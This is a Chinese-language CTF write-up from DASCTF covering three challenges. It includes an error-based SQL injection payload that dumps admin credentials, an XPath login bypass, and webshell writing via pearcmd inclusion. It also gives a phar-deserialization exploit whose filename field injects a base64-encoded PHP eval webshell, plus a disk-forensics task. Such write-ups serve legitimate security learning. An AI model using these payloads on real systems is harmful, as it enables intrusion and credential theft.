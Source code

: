 ## Web
### ez_cms
`?r=content&cid=1%20or%20updatexml(1,concat(0x7e,(select%20concat(user,0x3a,password)%20from%20manage)),1)`

![](attachments/Pasted%20image%2020230722105003.png)

![](attachments/Pasted%20image%2020230722104909.png)

通过发布下载实现任意文件读取
![](attachments/Pasted%20image%2020230722105721.png)

![](attachments/Pasted%20image%2020230722105710.png)


后面真的没有思路了用cms的下载管理来读文件不知道flag名字，用上传的方式想上传一个图片马然后用文件包含那个洞来做RCE但是上传会报错猜测是系统里面没有那个文件夹，最后是直接pearcmd文件包含来写马。

![](attachments/Pasted%20image%2020230725151857.png)


![](attachments/Pasted%20image%2020230725160451.png)

DASCTF{ae7b0d3b-fb3f-4fe8-ae61-5acd1486c460}

### ## MyPicDisk
username: admin'
password： admin'

登陆后要拦截响应包不然的话看不到会直接跳转，这里提示/y0u_cant_find_1t.zip 

![](attachments/Pasted%20image%2020230725161932.png)

index.php
```php
<?php
session_start();
error_reporting(0);
class FILE{
    public $filename;
    public $lasttime;
    public $size;
    public function __construct($filename){
        if (preg_match("/\//i", $filename)){
            throw new Error("hacker!");
        }
        $num = substr_count($filename, ".");
        if ($num != 1){
            throw new Error("hacker!");
        }
        if (!is_file($filename)){
            throw new Error("???");
        }
        $this->filename = $filename;
        $this->size = filesize($filename);
        $this->lasttime = filemtime($filename);
    }
    public function remove(){
        unlink($this->filename);
    }
    public function show()
    {
        echo "Filename: ". $this->filename. "  Last Modified Time: ".$this->lasttime. "  Filesize: ".$this->size."<br>";
    }
    public function __destruct(){
        system("ls -all ".$this->filename);
    }
}
?>
<!DOCTYPE html>
<html>
<head>
  <meta charset="UTF-8">
  <title>MyPicDisk</title>
</head>
<body>
<?php
if (!isset($_SESSION['user'])){
  echo '
<form method="POST">
    username：<input type="text" name="username"></p>
    password：<input type="password" name="password"></p>
    <input type="submit" value="登录" name="submit"></p>
</form>
';
  $xml = simplexml_load_file('/tmp/secret.xml');
  if($_POST['submit']){
    $username=$_POST['username'];
    $password=md5($_POST['password']);
    $x_query="/accounts/user[username='{$username}' and password='{$password}']";
    $result = $xml->xpath($x_query);
    if(count($result)==0){
      echo '登录失败';
    }else{
      $_SESSION['user'] = $username;
        echo "<script>alert('登录成功!');location.href='/index.php';</script>";
    }
  }
}
else{
    if ($_SESSION['user'] !== 'admin') {
        echo "<script>alert('you are not admin!!!!!');</script>";
        unset($_SESSION['user']);
        echo "<script>location.href='/index.php';</script>";
    }
  echo "<!-- /y0u_cant_find_1t.zip -->";
  if (!$_GET['file']) {
    foreach (scandir(".") as $filename) {
      if (preg_match("/.(jpg|jpeg|gif|png|bmp)$/i", $filename)) {
        echo "<a href='index.php/?file=" . $filename . "'>" . $filename . "</a><br>";
      }
    }
    echo '
  <form action="index.php" method="post" enctype="multipart/form-data">
  选择图片：<input type="file" name="file" id="">
  <input type="submit" value="上传"></form>
  ';
    if ($_FILES['file']) {
      $filename = $_FILES['file']['name'];
      if (!preg_match("/.(jpg|jpeg|gif|png|bmp)$/i", $filename)) {
        die("hacker!");
      }
      if (move_uploaded_file($_FILES['file']['tmp_name'], $filename)) {
          echo "<script>alert('图片上传成功!');location.href='/index.php';</script>";
      } else {
        die('failed');
      }
    }
  }
  else{
      $filename = $_GET['file'];
      if ($_GET['todo'] === "md5"){
          echo md5_file($filename);
      }
      else {
          $file = new FILE($filename);
          if ($_GET['todo'] !== "remove" && $_GET['todo'] !== "show") {
              echo "<img src='../" . $filename . "'><br>";
              echo "<a href='../index.php/?file=" . $filename . "&&todo=remove'>remove</a><br>";
              echo "<a href='../index.php/?file=" . $filename . "&&todo=show'>show</a><br>";
          } else if ($_GET['todo'] === "remove") {
              $file->remove();
              echo "<script>alert('图片已删除!');location.href='/index.php';</script>";
          } else if ($_GET['todo'] === "show") {
              $file->show();
          }
      }
  }
}
?>
</body>
</html>
```

写phar包

```php
<?php
class FILE{
    public $filename=";echo PD9waHAgcGhwaW5mbygpO2V2YWwoJF9QT1NUWzFdKTs/Pg==|base64 -d|bash -i> shell.php";
    public $lasttime;
    public $size;
    public function remove(){
        unlink($this->filename);
    }
    public function show()
    {
        echo "Filename: ". $this->filename. "  Last Modified Time: ".$this->lasttime. "  Filesize: ".$this->size."<br>";
    }
}


phpinfo();
$a = new FILE();

$phar=new phar('phar.phar',0);//后缀名必须为phar
$phar->startBuffering();//开始缓冲 Phar 写操作
$phar->setMetadata($a);//自定义的meta-data存入manifest
$phar->setStub("<?php __HALT_COMPILER();?>");//设置stub，stub是一个简单的php文件。PHP通过stub识别一个文件为PHAR文件，可以利用这点绕过文件上传检测
$phar->addFromString("test.txt","test");//添加要压缩的文件
$phar->stopBuffering();//停止缓冲对 Phar 归档的写入请求，并将更改保存到磁盘
?>
```


todo 为md5时触发 md5_file()
加上上面的File类的命令拼接RCE大概考点是phar反序列化

自己写个提交页面来构造表单

![](attachments/Pasted%20image%2020230725170616.png)

成功写入

![](attachments/Pasted%20image%2020230725170454.png)

但是实际访问中发先shell.php存在但是无显示，但是这里上传成功页面这里发现会执行ls -all 考虑直接拼接
## Misc
### ezFat32
给了个镜像用autopsy直接提了一个bmp出来

![](attachments/f0000001.bmp)

剩余空间里面由hint提示sha256解压
用sha256值去解压缩包的密码解开后就是flag

![](attachments/Pasted%20image%2020230724153536.png)

1bec3826d44f706d33e8cc4bc230d3113d0198261ff1cd251294dbdebabb0af5

dasctf{Yep_Y0u_F1nd_The_F1ag!Suff3r_t0_rec0ver}